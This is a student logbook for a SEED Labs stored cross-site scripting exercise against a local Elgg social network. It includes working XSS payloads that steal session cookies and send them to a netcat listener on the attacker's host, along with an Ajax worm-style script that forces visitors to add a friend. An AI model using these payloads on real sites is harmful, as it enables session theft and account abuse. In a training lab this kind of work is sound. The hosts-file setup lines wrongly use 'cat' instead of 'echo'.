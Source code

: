 # Logbook #7

> Environment Setup:
>
> - DNS Setup (execute only once):
>
> ```bash
> $ cat 10.9.0.5 www.seed-server.com >> /etc/hosts
> $ cat 10.9.0.5 www.example32a.com >> /etc/hosts
> $ cat 10.9.0.5 www.example32b.com >> /etc/hosts
> $ cat 10.9.0.5 www.example32c.com >> /etc/hosts
> $ cat 10.9.0.5 www.example60.com >> /etc/hosts
> $ cat 10.9.0.5 www.example70.com >> /etc/hosts
> ```
>
> - Clean MySQL database:
>
> ```bash
> $ sudo rm -rf mysql_data # Inside Labsetup folder
> ```
>
> - Start Docker:
>
> ```bash
> $ dcbuild # Inside Labsetup folder
> $ dcup
> ```

## Task 1

Putting the following line in a profile brief description will execute that javascript code every time the page is loaded, i.e., a popup will appear like in the image.

```html
<script>alert(’XSS’);</script>
```

![popup_alert_xss.png](./images/popup_alert_xss.png)

## Task 2

The following script generates a popup showing the client cookies.

```html
<script>alert(document.cookie);</script>
```

Again, writing it in the brief description of the user profile executes that javascript code.

![show_cookies.png](./images/show_cookies.png)

## Task 3

Instead of showing a popup to the victim with its own cookies, we can send them to the attacker's machine.

To achieve that, we execute

```bash
nc -lknv 5555 
```

which will start to listen to the TCP requests in the port 5555.

Then, we write the following script in the attacker's profile.

```html
<script>document.write(’<img src=http://10.9.0.1:5555?c=’
+ escape(document.cookie) + ’ >’);
</script>
```

This, will send a HTTP request for an image to the attacker's server. 

Bellow, we can see the output of netcat in the attacker's computer:

```
Listening on 0.0.0.0 5555
Connection received on 10.0.2.15 44658
GET /?c=Elgg%3Djj5s8t7scks540tr5k1itt6301%3B%20elggperm%3Dzj6Wdjq33jbUgp0Lp-vxAH-kYz2BBxH2 HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/;q=0.8,/*;q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/
Priority: u=4, i
```

The cookies are In the fourth line:

> Elgg%3Djj5s8t7scks540tr5k1itt6301%3B%20elggperm%3Dzj6Wdjq33jbUgp0Lp-vxAH-kYz2BBxH2

## Task 4

When a user adds Samy as friends, a GET HTTP request is sent to the server:

```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1731587585&__elgg_token=hVPCC0x8-c-AJ3wq0bC7vA&__elgg_ts=1731587585&__elgg_token=hVPCC0x8-c-AJ3wq0bC7vA
```

```
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
Cookie: elggperm=zj6Wdjq33jbUgp0Lp-vxAH-kYz2BBxH2; Elgg=jj5s8t7scks540tr5k1itt6301
```

Sending such HTTP request can be replicated with the following script:

```javascript
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;

        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; // ➀
        var token="&__elgg_token="+elgg.security.token.__elgg_token; // ➁

        //Construct the HTTP request to add Samy as a friend.
        var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token + ts + token;

        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

Now, putting this script in Samy's "About Me" field in Text Mode, will inject it right in the HTML of the page. Then, it will be execute by every user that enters his page.

> Explain the purpose of Lines ➀ and ➁, why are they needed?

The purpose lines ➀ and ➁ is to get the security tokens needed to successfully send the HTTP request. Without them, the server would not be able to infer the origin of such request, ignoring it. 

> If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

No, because the script would only be shown and not executed. Thus, not sending the GET request to add Samy as friend.

## Question 2

> Há várias modalidades de ataques XSS (Reflected, Stored ou DOM). Em qual/quais pode enquadrar este ataque e porquê?

This is a Stored XSS attack, since the malicious script is stored on the Elgg site.